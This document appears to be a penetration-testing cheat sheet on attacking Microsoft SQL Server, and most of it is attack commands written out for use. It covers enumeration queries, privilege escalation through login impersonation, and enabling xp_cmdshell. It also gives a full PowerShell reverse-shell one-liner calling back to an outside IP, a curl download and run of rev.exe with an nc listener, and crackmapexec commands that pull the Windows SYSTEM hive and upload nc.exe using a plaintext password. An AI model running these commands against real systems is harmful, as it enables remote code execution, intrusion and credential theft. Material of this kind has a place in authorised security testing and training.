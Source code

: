 ### MSSQL Default Database
```
Master
Model
Msdb
Tempdb
```
### Queries to run 
```
# Get version
select @@version;
# Get user
select user_name();

#show database 
SELECT name FROM master..sysdatabases;

# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>
```
### If current user does not have permission o view database
Backgroup  
>SQL (HAERO\discovery  guest@master)> use hrappdb

>ERROR: Line 1: The server principal "HAERO\discovery" is not able to access the database "hrappdb" under the current security context.

Solution
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader

SQL (HAERO\discovery  guest@master)> EXECUTE AS LOGIN = 'hrappdb-reader'
SQL (hrappdb-reader  guest@master)> use hrappdb
```
### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
Or 
```
EXECUTE xp_cmdshell 'curl http://192.168.45.202:8000/rev.exe -o C:\Users\Public\rev.exe';
EXECUTE xp_cmdshell 'c:\users\public\rev.exe';
rlwrap nc -nlvp 4444
```
### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
